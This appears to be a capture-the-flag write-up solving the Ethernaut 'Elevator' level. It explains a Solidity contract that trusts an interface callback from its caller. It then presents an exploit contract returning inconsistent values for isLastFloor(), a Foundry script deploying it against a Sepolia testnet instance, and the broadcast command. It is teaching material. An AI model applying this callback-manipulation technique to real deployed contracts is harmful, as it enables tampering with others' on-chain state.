## Elevator

<br>


### tl; dr

<br>


* this challenge explores smart contract composability, which can be seen in **ERC standards**, **libraries**, and **interfaces**. 
  - here, we look at interfaces.

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/46235a71-05d9-444c-9e0f-2cffc13d88a5">
</p>


<br>

```solidity
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```


<br>

---

### discussion

<br>

* the contract starts with an `interface` containing an `external` function that returns a `bool` if `isLastFloor()`. 
  - note that `external` allows a change of state (an alternative is `view`, which doesn't allow modification of the state of the contract).

<br>


```solidity
interface Building {
  function isLastFloor(uint) external returns (bool);
}
```

<br>


* next, we see two state variables, `bool top` to indicate if we are at the top and `uint floor` telling where to go:

```solidity
bool public top;
uint public floor;
```

<br>

* finally, there is one (`public`) function, which simulates the movement of the elevator by first initiating the `building` contract (with the data provided by `msg.sender`) and then taking a `uint _floor` as input representation for "which floor to go":

<br>

```solidity
function goTo(uint _floor) public {
    Building building = Building(msg.sender);
```

<br>

* if the given floor number is not the last, fill both in variables `floor` and `top`:

<br>


```solidity
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```

<br>

* our goal is to pass the check `!building.isLastFloor(_floor)` so that we can make `top == True` by hacking the interface function `isLastFloor()`. 
  - we can achieve this by tailoring an exploit using the interface and defining `isLastFloor()` to return `false` in the first call and `true` in the second call (with the same input).

<br>

----

### solution

<br>

* we craft the following exploit:

<br>

```solidity
import {Elevator, Building} from "src/11/Elevator.sol";

contract ElevatorExploit is Building {
    
    uint public lastFloor;

    function isLastFloor(uint thisFloor) external override returns (bool) {

        if (lastFloor != thisFloor) {
            lastFloor = thisFloor;
            return false;
        } 
        return true;
    }

    function run(Elevator level) public {
        // go to random floor 10
        level.goTo(10);
    }
}
```


<br>

* which can be submitted with `script/11/Elevator.s.sol`:

<br>

```solidity
contract Exploit is Script {

        address instance = 0x3438a48A2b1d4452113a06A131F8e3Fd568E7A78;
        address hacker = vm.envAddress("PUBLIC_KEY");

        Elevator level = Elevator(instance);        
        
        function run() external {

            vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

            ElevatorExploit exploit = new ElevatorExploit();
            exploit.run(level);
            assert(level.top());

            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/11/Elevator.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>

----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



